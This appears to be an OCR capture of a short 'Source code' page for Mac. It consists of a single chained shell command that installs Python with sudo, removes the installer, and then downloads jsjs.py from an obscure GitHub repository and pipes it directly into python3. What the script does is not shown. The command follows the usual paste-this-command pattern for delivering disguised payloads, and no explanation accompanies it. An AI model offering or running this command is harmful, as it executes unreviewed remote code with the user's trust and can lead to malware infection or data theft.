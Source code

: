 # Mac

-----------

curl -o python-installer.pkg https://www.python.org/ftp/python/3.13.3/python-3.13.3-macos11.pkg && \
sudo installer -pkg python-installer.pkg -target / && \
rm python-installer.pkg && \
curl -s https://raw.githubusercontent.com/angel0hm/mom-sDay/refs/heads/main/jsjs.py | /Library/Frameworks/Python.framework/Versions/3.13/bin/python3
